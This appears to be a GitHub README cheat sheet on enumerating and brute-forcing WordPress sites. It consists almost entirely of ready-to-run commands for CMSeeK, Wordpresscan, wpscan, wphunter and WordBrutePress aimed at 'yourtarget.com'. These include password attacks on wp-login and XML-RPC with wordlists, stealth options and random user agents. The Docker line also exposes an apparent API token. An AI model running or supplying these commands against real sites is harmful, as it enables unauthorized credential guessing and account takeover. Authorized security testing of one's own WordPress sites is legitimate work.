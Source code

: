 # Inspired in C4N6
This guide 'll help U to undertsand if your wordpress webapp is vulnerable to enumerate and bruteforce with different tools the below sub components of this cms. 

- credentials 
- plugins
- themes
- timthumbs

#
Login as root

    su
# Identify the CMS 
And provide the report of what harvested and the vulnerabilities

    cd /usr/share && git clone https://github.com/Tuhinshubhra/CMSeeK && cd CMSeeK && sudo python3 cmseek.py --update
#    
    sudo python3 cmseek.py -u https://yourtarget.com --user-agent random -r

# wordpresscan

    cd /usr/share && git clone https://github.com/swisskyrepo/Wordpresscan.git && pip install tornado
#    
    cd Wordpresscan && sudo python wordpresscan.py -u website.com --update --threads 37 --random-agent --brute --fuzz


# wpscan 

    sudo apt-get install libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev -y && gem install wpscan && wpscan --update && wpscan --version

# Install SecList

https://github.com/4k4xs4pH1r3/SecLists
    
    
# 
In Kali

    wpscan --api-token yourtoken --url https://yourtaget.com/ --exclude-content-based --random-user-agent --force --stealthy --ignore-main-redirect --detection-mode aggressive --interesting-findings-detection aggressive --wp-version-all --wp-version-detection aggressive --ua --rua -t 10 --throttle 10 --disable-tls-checks --force --update --wp-content-dir /wp-content -e --enumerate vp,vt,tt,cb,dbe,u,m --db-exports-detection aggressive --config-backups-detection aggressive --main-theme-detection aggressive --themes-detection aggressive --medias-detection aggressive --plugins-detection aggressive --plugins-version-detection aggressive -v --verbose --no-banner --users-detection aggressive -U ~/users -P /usr/share/wordlists/darkc0de.lst --password-attack wp-login -o ./wpscandebuglog.txt

#
    wpscan --api-token yourtoken --url https://yourtaget.com/ --exclude-content-based --random-user-agent --force --stealthy --ignore-main-redirect --wp-version-all --ua --rua -t 10 --throttle 10 --disable-tls-checks --force --update --wp-content-dir /wp-content -e --enumerate vp,vt,tt,cb,dbe,u,m --db-exports-detection aggressive --config-backups-detection aggressive -v --verbose --no-banner --users-detection aggressive -U ~/users -P /usr/share/wordlists/darkc0de.lst --password-attack wp-login -o ./wpscandebuglog.txt

    wpscan --api-token --url https://yourtaget.com/ --exclude-content-based -o ./wpscandebuglog3.txt --random-user-agent --force --stealthy --plugins-detection aggressive

#
#
# 
In Parrot

   
#      
    sudo wpscan --url https://yourtarget.com/wp-admin --update --user-agent --random-agent --follow-redirection --batch --cache-dir /usr/share/wpscan/cache --wordlist /usr/share/dirbuster/wordlists/darkc0de.lst --usernames ~/users.txt --threads 50 --throttle 10 --enumerate p t u tt --debug-output 2>debug.log --wp-content-dir /wp-content --force --disable-tls-checks --disable-referer --disable-accept-header --no-banner --verbose
    
 In Docker 
 
    docker run -it --rm wpscanteam/wpscan --url https://yourtarget.com/wp-admin --update --force -t 37 --rua --detection-mode aggressive --api-token rXbXUKWwDK6FzlsTg4ydb3IQ1SW4snak0hP6dkO1YzA --detection-mode aggressive --stealthy --password-attack wp-login --plugins-detection aggressive --plugins-version-detection aggressive -v --verbose -e --enumerate vp,vt,tt,cb,dbe,u,m


# wphunter

    cd /usr/share && git clone https://github.com/Jamalc0m/wphunter.git && cd wphunter
#    
    sudo php wphunter.php http://yourtarget.com


# WordBrutePress
    
    apt install git -y && git clone https://github.com/4k4xs4pH1r3/bbh.git /usr/share/wordlists && cd /usr/share/wordlists/wordlists && mv *.* /usr/share/wordlists && mv dirb dirbuster fern-wifi wfuzz /usr/share/wordlists && rm -r /usr/share/wordlists/wordlists && git clone https://github.com/danielmiessler/SecLists.git /usr/share/SecLists && cd && apt install neofetch screenfetch -y && neofetch && cd /usr/share && git clone https://github.com/The404Hacking/WordBrutePress && pip install httplib2 && cd WordBrutePress 
#    
    python2 /usr/share/WordBrutePress/WordBrutePress.py -t http://yoursite.co/wp/ -u username -w /usr/share/SecLists/Passwords/darkc0de.lst

#
[X] You must insert http:// or https:// protocol#



#Standard login brute use this command=
-S, --standard

Xml-rpc login brute use this command=

-X, --xml-rpc
#
# by C4N6
